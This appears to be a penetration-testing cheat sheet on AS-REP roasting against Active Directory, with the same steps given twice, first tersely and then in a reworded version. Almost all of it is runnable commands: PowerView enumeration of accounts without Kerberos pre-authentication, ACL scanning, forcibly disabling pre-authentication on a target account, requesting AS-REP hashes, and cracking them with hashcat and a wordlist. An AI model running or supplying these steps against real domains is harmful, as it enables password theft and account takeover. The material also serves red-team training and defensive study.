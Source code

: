 # 🟢 AS-REPS Roasting

```
. .\Powerview_dev.ps1
```

### **Enumerating accounts with Kerberos pre-auth disabled**

```
Get-DomainUser -PreauthNotRequired -Verbose
```

```
Get-DomainUser -PreauthNotRequired -verbose | select samaccountname
```

**Enumerate permissions for group**

{% code overflow="wrap" %}
```
Invoke-ACLScanner -ResolveGUIDS | Where-Object {$_.IdentityReference -match “<groupname>”}
Invoke-ACLScanner -ResolveGUIDS | Where-Object {$_.IdentityReference -match “<groupname>”} | select IdentityReference, ObjectDN, ActiveDirectoryRights | fl
```
{% endcode %}

### **Set pre-auth not required**

```
. ./PowerView_dev.ps1
Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose
```

### **Request encrypted AS-REP**

```
. ./ASREPRoast.ps1
Get-ASREPHash -Username <username> -Verbose
```

### **Enumerate all users with Kerberos pre-auth disabled and request a hash**

```
Invoke-ASREPRoast -Verbose
Invoke-ASREPRoast -Verbose | fl
```

**Crack the hash with hashcat**

```
Hashcat -a 0 -m 18200 hash.txt rockyou.txt
```

### Active Directory Kerberos Enumeration and Modification

#### Enumerating Accounts with Disabled Kerberos Pre-Authentication

First, load the PowerView PowerShell module:

```powershell
. .\Powerview_dev.ps1
```

Then, retrieve all users with pre-authentication not required, using:

```powershell
Get-DomainUser -PreauthNotRequired -Verbose
```

Or, list only their usernames:

```powershell
Get-DomainUser -PreauthNotRequired -verbose | select samaccountname
```

#### Enumerating Permissions for a Group

To find permissions for a specific group:

```powershell
Invoke-ACLScanner -ResolveGUIDS | Where-Object {$_.IdentityReference -match "<groupname>"}
```

For a detailed list:

```powershell
Invoke-ACLScanner -ResolveGUIDS | Where-Object {$_.IdentityReference -match "<groupname>"} | select IdentityReference, ObjectDN, ActiveDirectoryRights | fl
```

#### Disabling Kerberos Pre-Authentication for a User

Load the PowerView script and run:

```powershell
. ./PowerView_dev.ps1
Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose
```

#### Requesting Encrypted AS-REP for a User

After loading the ASREPRoast script:

```powershell
. ./ASREPRoast.ps1
Get-ASREPHash -Username <username> -Verbose
```

#### Roasting Users with Pre-Auth Disabled

To enumerate and roast all users:

```powershell
Invoke-ASREPRoast -Verbose
Invoke-ASREPRoast -Verbose | fl
```

#### Cracking the Hash

Finally, crack the retrieved hash using hashcat:

```bash
Hashcat -a 0 -m 18200 hash.txt rockyou.txt
```

```
```
